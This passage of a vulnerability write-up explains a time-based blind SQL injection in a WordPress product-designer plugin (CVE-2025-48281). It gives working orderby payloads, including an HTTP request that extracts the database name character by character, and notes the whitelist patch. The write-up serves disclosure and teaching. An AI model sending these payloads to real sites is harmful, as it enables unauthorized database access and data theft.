 👉 Based on the response time => the payload is effective.

> In this case, do not append a comment after `SLEEP`. Because the developer has an Enter/newline that moves **OFFSET** to the next line; if you comment it out, the SQL parser may return an error.

![debug](debug.png "Debug SQL Error")

The chain will be split into two queries on different lines causing an error:

```sql
SELECT * FROM wp_mystyle_designs  WHERE ms_access = 0  ORDER BY (SELECT SLEEP(5)) -- ASC LIMIT 25               
OFFSET 0
```

### Get First Letter of Database Name

A prerequisite for dumping data is being able to extract a single character of the database name — if you can get one character, you can typically dump the rest.

Send a request with an SQLi payload:

```http
GET /designs/?orderby=IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1) HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

This uses `SUBSTRING()` to get the first character of the **database name**, and `IF()` returns `SLEEP(5)` if that character equals `0x77` ('w').

Hex encoding `w` as `0x77` is used because `orderby` comes from a **GET** parameter that may be escaped by WordPress magic quotes.

👉 Based on the response time => the first character is `w`.

---

## Conclusion

The **CVE-2025-48281** vulnerability in the WordPress **MyStyle Custom Product Designer** plugin prior to version **3.21.2** stems from directly inserting user-controlled input into SQL without sufficient validation, leading to SQL Injection.

The official patch implements a whitelist which ensures the input is validated and safer.

**Key takeaways**:
